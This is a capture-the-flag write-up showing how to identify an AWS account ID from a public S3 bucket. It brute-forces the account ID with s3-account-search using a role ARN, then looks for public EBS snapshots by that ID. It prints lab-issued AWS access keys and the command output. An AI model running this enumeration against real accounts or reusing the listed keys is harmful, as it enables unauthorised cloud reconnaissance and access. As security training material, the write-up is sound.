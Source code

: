 ```yaml
---
layout: post
title:  "Identify Account ID from a Public s3 Bucket"
date:   2023-10-27 21:39:54 +0530
---
```


# Initial Entry point 

As an initial entry endpoints we have been provided with the following details 

  

| IP Address | 54.204.171.32 |
| --- | --- |
| AWS ACCESS KEY | AKIAWHEOTHRFW4CEP7HK |
| AWS SECRET ACCESS KEY | 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 |

  

Before even we are starting out the challenge, we can looking into the fundamentals of understanding `Account ID`  and How we can understand and exploit this misconfiguration

  

## Short intro on how Account ID works

Account ID is 12 Digital Number like `1234567891234`  which helps in identifying the AWS accounts and we can also identify resource aligned with it through arn strings ( eg. `arn:aws:iam::1234567891234:role/dev` ) where the Account ID is `1234567891234` 

  

## Outro of understanding how we can enumerate

- Every AWS resource including s3 will belong to particular AWS account which will be identified through Account ID 
- Usually IAM helps in restricting access to resources on AWS by determining this role will access to resources they were allowed or if there is no access then they will throw `access denied` error
- Then they have introduced new resource based policy which is `S3:ResourceAccount` where you can able to specify that this particular Account  should have access to s3 bucket.. only Account with access to resources will be allowed or else the access will be restricted 
- In order to make a verification, For eg. Let's assume we have an account with an account ID `123412341234` have access to s3 bucket called `devtest`.. due to `s3:ResourceAccount` Policy if you try to access the same s3 bucket from a different account with account ID `123412341235` we won't able to access it.. It will be accessible only when you have right account ID

  

## Solution to the challenge 

  

With the following IP addresss `54.204.171.32`  we have an HTTP application which looks like a ecommerce application where they fetches the image from the following s3 bucket `mega-big-tech.s3.amazonaws.com` 

  

![]({{ site.baseurl }}/assets/images/identity-1.png)

  

In the mentioned s3 bucket, we can able to get the object which is image files and when opening the s3 bucket link directly, list out the objects in the bucket.. then my understanding is assume that for this s3 bucket we have two policies had been implemented which is `GetObject`  and `ListBucket`

  

#### Example IAM Policy being implemented on mega-big-tech s3 bucket 

  

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enum",
            "Effect": "Allow",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::mega-big-tech/*"
        },
        {
            "Sid": "Enum1",
            "Effect": "Allow",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::mega-big-tech"
        }
    ]
}
```

  

Before even going into main phase of exploitation, we need to some detail on our s3 bucket which is to get the region and for that we can use `curl`  and the region is on `us-east-1`  which is by default 

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % curl -I "https://mega-big-tech.s3.amazonaws.com"
HTTP/1.1 200 OK
x-amz-id-2: dDHTbab4SDDNMz0NhYu1Qs48Ei+PaWgxNQ71tMXQLAluCkt8MzahXyI/tydcV6wsaZBr4bJL7JE=
x-amz-request-id: 75XY0KYZ4EP7TK44
Date: Mon, 12 Feb 2024 05:50:31 GMT
x-amz-bucket-region: us-east-1
x-amz-access-point-alias: false
Content-Type: application/xml
Server: AmazonS3
```

  

Now, lets configure the AWS credentials as initially provided and let’s run `aws sts get-caller-identity`  which reveals that the credential belongs to `s3user`  

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % aws sts get-caller-identity --profile leakybucket
{
    "UserId": "AIDAWHEOTHRF62U7I6AWZ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/s3user"
}
```

  

With the current credentials, we don’t access to the s3 bucket where we have already mentioned that this validation will be based on your account and account ID 

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % aws s3 ls s3://mega-big-tech --profile leakybucket

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

  

Assume we have another role called `LeakyBucket`  we can check this account against the s3 bucket called `mega-big-tech`  and bruteforce their `Account ID`  using a tool [s3-account-search](https://github.com/WeAreCloudar/s3-account-search "https://github.com/WeAreCloudar/s3-account-search")

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % s3-account-search arn:aws:iam::427648302155:role/LeakyBucket mega-big-tech
Starting search (this can take a while)
found: 1
found: 10
found: 107
found: 1075
found: 10751
found: 107513
found: 1075135
found: 10751350
found: 107513503
found: 1075135037
found: 10751350379
found: 107513503799
```

  

Breaking down of the above command, we have same arn id with assuming a role called `LeakyBucket`  against the s3 bucket called `mega-big-tech`  and found that the account ID is  `107513503799`  is identified as flag 

  

### Further Possible Escalation with the Account ID 

  

Now in our AWS console, Go for the region as `us-east-1`  and sometimes you need to change it in console if you are like me where I’m from india it will be in `ap-southeast-1`


![]({{ site.baseurl }}/assets/images/identity-2.png)

  

In the EC2 service, we have a ability to look into the public snapshots ( Kind of snapshots provided by public or sometimes due to misconfiguration made by account by search through Account ID ) For our scenario, we made search with the following account ID `107513503799`  and found that public EBS snapshot available 

  

![]({{ site.baseurl }}/assets/images/identity-3.png)